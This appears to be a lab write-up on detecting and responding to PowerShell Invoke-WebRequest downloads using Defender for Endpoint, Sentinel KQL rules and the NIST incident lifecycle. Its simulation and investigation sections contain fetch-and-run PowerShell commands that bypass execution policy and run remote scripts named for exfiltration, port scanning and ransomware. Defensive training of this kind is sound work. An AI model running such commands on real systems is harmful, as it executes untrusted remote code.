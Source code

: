 # 🧪 Threat Detection & Incident Response Lab: PowerShell Suspicious Web Request

This lab walks through the lifecycle of a detection and response scenario where PowerShell is used to download scripts from a remote server using `Invoke-WebRequest`. The goal is to detect, investigate, and respond using Microsoft Defender for Endpoint (MDE), Microsoft Sentinel, and the NIST 800-61 Incident Response framework.

---

## 🌟 Objective

* Detect suspicious PowerShell use for remote file downloads
* Simulate the activity on an MDE-onboarded host
* Configure a detection rule in Microsoft Sentinel
* Investigate alerts and associated artifacts
* Perform containment, remediation, and reporting actions

---

## 🧰 Preparation

Attackers commonly use legitimate tools like PowerShell to evade detection, leveraging commands such as `Invoke-WebRequest` to download payloads. This technique is part of **LOLBins** (Living Off the Land Binaries). In this lab, we simulate such behavior by downloading `eicar.ps1` (a harmless test file).

Defender for Endpoint detects the behavior and sends telemetry to Microsoft Sentinel for detection and response.

---

## 🛡️ Create Alert Rule: Suspicious PowerShell Web Request

### 🔍 Detection Context

`Invoke-WebRequest` is frequently abused by attackers to:

* Download malicious files or scripts
* Execute payloads post-compromise
* Communicate with external infrastructure (C2)

### 📊 Detection Pipeline

1. **MDE logs** PowerShell activity in `DeviceProcessEvents`
2. Logs are **forwarded to Sentinel** via Log Analytics
3. A **scheduled alert rule** in Sentinel detects the behavior

---

### 🔧 Step-by-Step Detection Setup

#### 1️⃣ Query Defender Logs

Run the following in Log Analytics Workspace to locate `Invoke-WebRequest` usage:

```kql
let TargetDevice = "nessa-windows";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "Invoke-WebRequest"
```

Verify payload detection:

```kql
let TargetHostname = "nessa-windows";
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]);
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| summarize Count = count() by AccountName, DeviceName, FileName, ProcessCommandLine
```

![Defender Screenshot](https://github.com/user-attachments/assets/49202b3e-736c-411e-8a46-67f60c431387)

#### 2️⃣ Create Alert Rule in Sentinel

1. Go to **Microsoft Sentinel > Analytics > Create > Scheduled Query Rule**
2. Fill in:

   * **Name**: PowerShell Suspicious Web Request
   * **Description**: Detects PowerShell downloading remote files
   * **KQL**:

```kql
let TargetDevice = "nessa-windows";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "Invoke-WebRequest"
```

3. Set:

   * **Frequency**: Every 4 hours
   * **Lookup Period**: Last 24 hours
4. **Entity Mapping**: `AccountName`, `DeviceName`, `ProcessCommandLine`
5. **MITRE Tactic**: Command and Scripting Interpreter: PowerShell / Execution
6. Enable and save the rule

![Sentinel Screenshot](https://github.com/user-attachments/assets/2c2e0d75-aa67-4ffc-a5ed-ffe30393d388)

---

### 💣 Simulate Attack — Triggering the Alert

To generate log activity and trigger an alert in Sentinel, run the following PowerShell commands on the onboarded VM (`nessa-windows`):

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1' -OutFile 'C:\programdata\eicar.ps1';
powershell.exe -ExecutionPolicy Bypass -File 'C:\programdata\eicar.ps1';
```

---

## 🛠️ Work the Incident (NIST 800-61 Lifecycle)

### 1️⃣ Preparation

* Confirm access, tooling, and training are in place

### 2️⃣ Detection & Analysis

* Assign the incident and mark it **Active**
* Investigate:

![Sentinel Screenshot](https://github.com/user-attachments/assets/7d589184-9fd1-479c-ba26-9a5adb092896)

* Identify scripts and commands:

*  Check PowerShell commands:
     ```plaintext
     powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/portscan.ps1 -OutFile C:\programdata\portscan.ps1
     powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
     powershell.exe" -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/eicar.ps1 -OutFile C:\programdata\eicar.ps1
     powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://raw.githubusercontent.com/joshmadakor1/lognpacific-public/refs/heads/main/cyber-range/entropy-gorilla/pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
     ```
Scripts executed:

* `portscan.ps1`
* `pwncrypt.ps1`
* `eicar.ps1`
* `exfiltratedata.ps1`

Gather evidence:

* Scripts downloaded and executed 🧪.
* User admitted to downloading free software during the events

### 3️⃣ Containment & Recovery

* Isolate host using MDE
* Run Defender scans
* Remove malicious files and validate system integrity

### 4️⃣ Post-Incident

* Log all scripts executed
* Note user involved (`BigMomma`)
* Update PowerShell usage policies
* Provide staff security training
* Mark incident **True Positive** and close

---

## 📍 Incident Summary

| **Metric**          | **Value**                                                         |
| ------------------- | ----------------------------------------------------------------- |
| Affected Device     | `nessa-windows`                                                |
| Suspicious Commands | 4                                                                 |
| Scripts Downloaded  | `portscan.ps1`, `pwncrypt.ps1`, `eicar.ps1`, `exfiltratedata.ps1` |
| Incident Status     | Resolved                                                          |

---

🎉 **Well done on completing the lab and securing your endpoint!** 🔐
